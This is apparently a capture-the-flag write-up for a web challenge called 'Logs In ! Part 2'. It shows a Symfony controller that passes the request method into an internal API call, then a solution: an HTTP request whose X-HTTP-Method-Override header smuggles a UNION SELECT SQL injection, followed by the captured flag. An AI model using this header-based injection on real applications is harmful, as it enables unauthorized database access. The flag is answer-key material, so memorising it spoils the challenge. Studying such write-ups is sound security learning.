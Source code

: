 # Logs In ! Part 2

## Description

Whaaaat? They did not closed the dev mode? Seriously? Whatever, you couldn't access our sensible database, I guess an open dev application couldn't give that much information or hurt us could it?

The application is hosted at logs_in

Creator : Remsio


Vulnerable code:

```
/**
     * @Route("/e48e13207341b6bffb7fb1622282247b")
     * @return Response
     */
    public function admin(KernelInterface $kernel)
    {
        $url = 'http://10.0.142.5'; // IP de l'API
        $call_api = new CallAPI();
        $request = new Request(
           $_GET,
           $_POST,
           [],
           $_COOKIE,
           $_FILES,
           $_SERVER
       );
       $method = $request->getMethod();
        $get_data = $call_api->callAPI('GET', $url.'?method='.$request->getMethod(), false);
        $response = $get_data;
        return $this->render('main/admin.html.twig', ['response' => json_decode($response), 'method' => $method]);
    } 
```

## Solution

```
POST /e48e13207341b6bffb7fb1622282247b HTTP/1.1
Host: logs_in.sharkyctf.xyz
X-HTTP-Method-Override: 123'+UNION+SELECT+null,flag,null+FROM+`%69%74%5f%73%65%65%6d%73%5f%73%65%63%72%65%74`+--+-

```

```
shkCTF{CVE-2019-10913_S33m3D_Bulls5H1T_B3F0R3_TH15_Ch4LL_69e28c7b0004fe05b05800596e64343b}
```